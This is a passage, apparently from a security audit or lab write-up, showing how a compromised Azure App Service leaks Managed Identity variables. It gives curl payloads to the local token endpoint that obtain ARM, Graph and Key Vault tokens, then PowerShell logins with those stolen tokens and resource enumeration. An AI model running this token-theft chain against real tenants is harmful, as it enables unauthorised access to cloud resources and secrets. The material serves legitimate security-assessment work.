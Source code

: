 - The auditor discovers that the `IDENTITY_ENDPOINT` and `IDENTITY_HEADER` variables are present.
```
<snip>

IDENTITY_ENDPOINT=http://127.0.0.1:41407/msi/token/IDENTITY_HEADER=FB0C3E41E5B24ACC9CB6D282CC3603A6

<snip>
```

- This information can be used to request Access Tokens for the Managed Identity for the compromised App Service. The auditor can request Access Tokens for ARM and MS Graph using the following payloads.
	- `curl "http://127.0.0.1:41407/msi/token/?resource=https://management.azure.com&api-version=2017-09-01" -H secret:"FB0C3E41E5B24ACC9CB6D282CC3603A6"`
	- `curl "http://127.0.0.1:41407/msi/token/?resource=https://graph.microsoft.com&api-version=2017-09-01" -H secret:"FB0C3E41E5B24ACC9CB6D282CC3603A6"`

- The auditor can then use the stolen Access Tokens to authenticate to Azure as that Managed Identity.
```powershell
PS C:\Auditor> $armtoken = 'eyJ0e...25E9I8f5w'
PS C:\Auditor> $msgraphtoken = 'eyJ0eX...cGJGNj4w'
PS C:\Auditor> Connect-AzAccount -AccountId '3329FEA7-642E-4C09-B1AD-D8EDBE140267' -AccessToken $armtoken -MicrosoftGraphAccessToken $msgraphtoken

Account                              SubscriptionName TenantId                             Environment
-------                              ---------------- --------                             -----------
3329FEA7-642E-4C09-B1AD-D8EDBE140267 PharmaCorp       e0f999c1-86ee-47a0-bfd5-18470154b7cd AzureCloud
```

- The auditor can now list accessible Azure Resources as that Managed Identity.
```powershell
PS C:\Auditor> Get-AzResource


Name              : compositionsecrets
ResourceGroupName : Composition
ResourceType      : Microsoft.KeyVault/vaults
Location          : francecentral
ResourceId        : /subscriptions/aac02f74-b0d2-45d2-8fbc-8d33f274116f/resourceGroups/Composition/providers/Microsoft.KeyVault/vaults/compositionsecrets
Tags              :
```

- The Managed Identity has access to a Key Vault. In order to access it, the auditor needs to request an access token for this type of Resource using the payload `curl "http://127.0.0.1:41407/msi/token/?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:"FB0C3E41E5B24ACC9CB6D282CC3603A6"` in the vulnerable web application. The auditor will then use this token to authenticate to Azure as the compromised Managed Identity.
```powershell
PS C:\Auditor> $keyvaulttoken = 'eyJ0e...jVmP1PQ'
PS C:\Auditor> Connect-AzAccount -AccountId '3329FEA7-642E-4C09-B1AD-D8EDBE140267' -AccessToken $armtoken -MicrosoftGraphAccessToken $msgraphtoken -KeyVaultAccessToken $keyvaulttoken

Account                              SubscriptionName TenantId                             Environment
-------                              ---------------- --------                             -----------
3329FEA7-642E-4C09-B1AD-D8EDBE140267 PharmaCorp       e0f999c1-86ee-47a0-bfd5-18470154b7cd AzureCloud
```
